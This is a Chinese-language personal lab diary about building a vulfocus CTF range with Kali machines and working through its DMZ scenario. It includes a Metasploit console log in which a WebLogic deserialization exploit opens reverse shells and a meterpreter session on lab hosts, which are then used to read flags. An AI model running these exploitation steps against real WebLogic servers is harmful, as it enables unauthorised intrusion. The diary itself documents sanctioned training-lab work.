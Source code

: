 # 日记

>This is Hoshi

## 杂项记录

- 2023年7月12日之前的哪个时候，在某台Kali虚拟机上对vulfocus平台进行了搭建，同时复现了rock遇到的“场景商店不能正常工作”的问题，顺便摸索了添加网卡的功能
- 2023年7月12日，和rock讨论之后决定手搓视频中演示的标准dmz主机场景，甚至使用了一样的网卡名称、网段和镜像，并成功启动了场景，虽然没有确认后续步骤能不能顺利进行，但是姑且认为是完成了一部分摸索

    ![screenShot](./img/2023-07-12-175824.png)

- 2023年7月12日，为了确保小组成员能够正确使用Git进行合理的工作记录，重新复习了密码学小学期玩到吐的Learn Git Branching游戏，不过倒是很快就上手了，记忆这个东西虽然模糊但是多少还是有点分量的

    ![screenShot](./img/2023-07-12-170609.png)

- 2023年7月13日，乘坐飞机回家，正式新建分支hoshi，添加了包括这段内容在内的诸多文件，打算将日记和报告分开存放了，日记这里随意记录一些琐事，报告的话还是需要好好整理格式

    ![screenShot](./img/2023-07-13-231452.png)

- 2023年7月15日，尝试更改实验环境的角色配置，原本计划用作Victim主机的VirtualBox虚拟机Kali将被用作Attacker主机，原本计划用作Attacker主机的WSL2中安装的Kali子系统将被用作Victim主机，理由大概是下面的情况：

  - 为了确保WSL2中的Kali能够正常启用为WSL适配的Win-Kex模式，不能将WSL2的Kali设置为由systemd作为PID 1引导启动的完整虚拟机（WSL2本身是可以通过添加配置来实现由systemd启动的），而要使用类似chroot的方式，此时使用metasploit framework时，如果要启用数据库来记录操作，其自动化模式是通过systemd启动数据库，于是会出现很直白的无法启动的问题，虽然说可以通过手动管理数据库服务，但考虑到折腾量还是选择了交换Victim和Attacker主机，毕竟单就docker来说，因为之前已经手动配置了服务启动所以和实际使用虚拟机并没有太大的区别了

    ![screenShot](./img/2023-07-15-125934.png)

- 2023年7月15日，记不清是不是已经说过了，但是还是记录一下，USTC已经停止对校外提供docker hub的镜像源了，官网上有说明，[ctf-games中关于vulfocus的README还没改](https://github.com/c4pr1c3/ctf-games/tree/master/fofapro/vulfocus)，仍然是cat中科大镜像源🤔

  ![screenshot](./img/2023-07-15-124831.png)

- 2023年7月15日，调换Victim主机和Attacker主机之后果然一切顺利，先是正常初始化了Metaspolit的数据库，然后也顺着教程拿到了第一台机器的flag

  ![screenShot](./img/2023-07-15-213407.png)

  ![screenShot](./img/2023-07-15-213411.png)

  ![screenShot](./img/2023-07-15-224012.png)

  ![screenShot](./img/2023-07-15-224519.png)

  有趣的是rock似乎遇到了和我开始打算用WSL作为Attacker主机使用时很像的msfdb初始化问题，目前还不清楚他具体遇到了什么问题

- 2023年7月17日，昨天（16日）一整天都因为电脑不知道原因的黑屏死机而折腾，进度也因为死机重启数据截图完全没有得到保留...并不是说今天电脑就好了，只能一边祈祷着不出问题一边尽可能多留下一些截图之类的东西

- 2023年7月17日，顺利在没有黑屏的情况下执行到了第二层内网三台weblogic漏洞主机的flag，虽然为了省事在主机存活扫描和exploit搜索时都直接使用了白盒端口和CVE直接搜索

  另外是在使用过程中发现的，metasploit在添加options时可以使用类似正则的表达来一次run执行多个主机的exploit，效果的话就和下图的效果一样：

  ![screenShot](./img/2023-07-17-191855.png)

  很显然中间因为有个192.170.84.4是外层struts2漏洞的主机导致破解失败，不过另外三台主机都没有问题，会在sessions里面直接get到3个会话，直接接入进去查看flag就好，操作的话姑且用下面的code block进行记录：

  ```metasploit
  msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions

  Active sessions
  ===============

    Id  Name  Type                   Information          Connection
    --  ----  ----                   -----------          ----------
    1         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:58718 (172.29.108.146)
    2         meterpreter x86/linux  root @ 192.170.84.4  192.168.56.107:4433 -> 192.168.56.1:58648 (172.29.108.146)
    3         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:58646 (192.170.84.2)
    4         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:58662 (192.170.84.3)
    5         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:58702 (192.170.84.5)

  msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -i 3
  [*] Starting interaction with 3...

  ls /tmp
  bea1061393648233859820.tmp
  cookie.txt
  flag-{bmh847737fd-8975-4b37-b977-f50474a56937}
  hsperfdata_root
  packages
  wlstTemproot
  ^Z
  Background session 3? [y/N]  y
  msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -i 4
  [*] Starting interaction with 4...

  ls /tmp
  bea1061393648233859820.tmp
  cookie.txt
  flag-{bmh0b089d55-4a89-41ea-b31f-e8f775ce1952}
  hsperfdata_root
  packages
  wlstTemproot
  ^Z
  Background session 4? [y/N]  y
  msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -i 5
  [*] Starting interaction with 5...

  ls /tmp
  bea1061393648233859820.tmp
  cookie.txt
  flag-{bmh0d1008a5-7a3d-43c8-a6a9-03fadae3bd8d}
  hsperfdata_root
  packages
  wlstTemproot
  ^Z
  Background session 5? [y/N]  y
  msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) >
  ```

  分别将flag贴到vulfocus的场景中就可以看到进度已经来到80%了，大顺利~

  ![screenShot](./img/2023-07-17-192034.png)

  唯一的疑惑是为什么明明还有一台nginx的php漏洞主机没交flag，但是却已经显示已完成了🤔
